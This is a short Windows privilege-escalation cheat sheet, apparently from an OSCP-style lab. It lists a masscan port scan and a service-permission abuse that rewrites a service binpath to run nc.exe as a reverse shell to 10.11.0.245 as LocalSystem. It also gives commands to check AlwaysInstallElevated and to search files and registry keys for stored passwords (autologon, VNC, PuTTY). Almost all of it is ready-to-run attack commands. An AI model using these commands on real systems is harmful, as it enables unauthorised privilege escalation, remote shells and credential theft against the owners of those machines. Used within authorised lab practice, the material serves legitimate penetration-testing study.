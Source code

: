 Port Scanning with Masscan

masscan -p1-65535,U:1-65535 10.10.10.x --rate=1000 -e tun0

Exploiting Vulnerable Windows Services: Weak Service Permissions

# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]

Find File/Folder Permissions Explicitly Set for a Given User

icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite

AlwaysInstallElevated MSI

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Stored Credentials: Windows

c:\unattend.xml
c:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Registry
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s
